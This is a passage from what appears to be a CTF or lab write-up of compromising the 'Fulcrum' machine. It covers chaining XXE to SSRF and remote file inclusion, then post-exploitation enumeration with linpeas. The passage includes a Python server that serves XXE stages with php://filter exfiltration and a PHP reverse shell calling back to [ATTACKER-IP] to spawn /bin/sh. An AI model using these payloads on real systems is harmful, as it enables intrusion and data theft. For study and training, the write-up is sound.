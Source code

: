       server_address = ('', 9001)
      httpd = HTTPServer(server_address, HTTPRequestHandler)
      httpd.serve_forever()
      ```
  - Successfully retrieved files like `/etc/os-release` to confirm Ubuntu Xenial 16.04.

---

### 5. Server-Side Request Forgery (SSRF) to Remote File Inclusion (RFI)
- **Technique**: Chaining XXE to SSRF for RFI
- **Details**:
  - Modified the XXE payload to force the server to make requests to `http://127.0.0.1:80/index.php?page=http://[ATTACKER-IP]:9002/test`, attempting to trigger RFI.
  - Confirmed the server fetched the attacker's URL, indicating SSRF.
  - Hosted a malicious PHP reverse shell (`shell.php`) on the attacker's server ([ATTACKER-IP]:9002), based on a modified PentestMonkey PHP reverse shell.
  - Updated the Python script to serve the PHP shell when requested:
    ```python
    try:
        stage, data = self.path.split('?')
        if stage == '/stage1.xml':
            message = """<?xml version="1.0" encoding="UTF-8"?>
            <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource={}">
            <!ENTITY % param1 "<!ENTITY xxe SYSTEM 'http://[ATTACKER-IP]:9001/stage2.xml?%data;'>">
            """.format(data)
        elif stage == '/stage2.xml':
            message = b64decode(data).decode('utf-8')
            print(message)
    except:
        message = """<?php
        // PHP reverse shell code (PentestMonkey)
        set_time_limit(0);
        $ip = '[ATTACKER-IP]';
        $port = 9002;
        $sock = fsockopen($ip, $port);
        $proc = proc_open('/bin/sh', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
        ?>"""
    self.send_response(200)
    self.end_headers()
    self.wfile.write(bytes(message, 'utf-8'))
    ```
  - Triggered the RFI by sending an XXE payload to include the malicious PHP file, resulting in a reverse shell as the `www-data` user on the Fulcrum server (`whoami: www-data`).

---

### 6. Post-Exploitation Enumeration
- **Technique**: File system and network enumeration
- **Details**:
  - Navigated the file system as `www-data`:
    - Found a PowerShell script (`fulcrum_upload_core.ps1`) in `/var/www/uploads` containing an encrypted password and decryption key.
    - Identified virtual machine (VM) infrastructure in `/var/lib/libvirt/images`, including VMDK files for a domain controller (`dc.vmdk`) and file server.
  - Ran `linpeas.sh` to enumerate system details, confirming:
    - User `blueprint` with accessible directories.
    - Multiple network interfaces (e.g., `192.168.122.1`, `192.168.122.28`) and VMs running on the hypervisor.
    - Processes indicating a virtualized environment (`libvirt`, `web`, `dc`, `file`).

---